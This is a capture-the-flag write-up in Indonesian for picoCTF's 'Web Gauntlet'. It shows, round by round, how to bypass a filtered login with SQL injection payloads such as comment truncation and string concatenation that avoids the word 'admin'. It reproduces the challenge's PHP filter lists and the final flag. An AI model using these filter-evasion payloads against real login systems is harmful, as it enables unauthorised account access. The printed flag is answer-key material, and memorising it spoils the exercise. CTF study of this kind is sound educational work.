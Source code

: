 # Web Gauntlet
- Link: https://play.picoctf.org/practice/challenge/88?category=1&page=3

## Tantangan
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:9683/ http://jupiter.challenges.picoctf.org:9683/filter.php

## Penyelesaian
- Buka URL http://jupiter.challenges.picoctf.org:9683/ di browser untuk membuka form login

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%201.JPG)

- Buka URL http://jupiter.challenges.picoctf.org:9683/filter.php di tab baru untuk melihat daftar string yang di filter

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%202.JPG)

- Di ronde 1 string yang difilter hanya `or` jadi kita bisa memasukkan username berikut dan sembarang password
```sh
admin' --
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%203.JPG)

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='admin' --' AND password='asdf'
```
- Reload halaman http://jupiter.challenges.picoctf.org:9683/filter.php Di ronde 2 string yang difilter adalah sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%204.JPG)

- Dironde 2 kita bisa menginput username sebagai berikut dan passwordnya bebas
```sh
admin'/*
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%205.JPG)

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='admin'/*' AND password='asdf'
```
- Reload halaman http://jupiter.challenges.picoctf.org:9683/filter.php Di ronde 3 string yang difilter adalah sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%206.JPG)

- Dironde 3 kita bisa menginput username seperti ronde sebelumnya dan passwordnya bebas
```sh
admin'/*
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%207.JPG)

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='admin'/*' AND password='asdf'
```
- Reload halaman http://jupiter.challenges.picoctf.org:9683/filter.php Di ronde 4 string yang difilter adalah sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%208.JPG)

- Dironde 4 kita bisa menginput username seperti ronde sebelumnya dan passwordnya bebas
```sh
adm'||'in'/*
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%209.JPG)

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='adm'||'in'/*' AND password='asdf'
```
- Reload halaman http://jupiter.challenges.picoctf.org:9683/filter.php Di ronde 5 string yang difilter adalah sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%2010.JPG)

- Dironde 5 kita bisa menginput username seperti ronde sebelumnya dan passwordnya bebas
```sh
ad'||'min'/*
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%2011.JPG)

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='asdf'
```
- Sekarang kita sudah berhasil melakukan bypass login dengan SQL Injection

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet/assets/web%20gauntlet%2012.JPG)

- Reload halaman http://jupiter.challenges.picoctf.org:9683/filter.php untuk mendapatkan flag. Berikut ini adalah isi halaman setelah kita berhasil membypass login
```sh
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
?>
```
- Flag
```sh
picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
```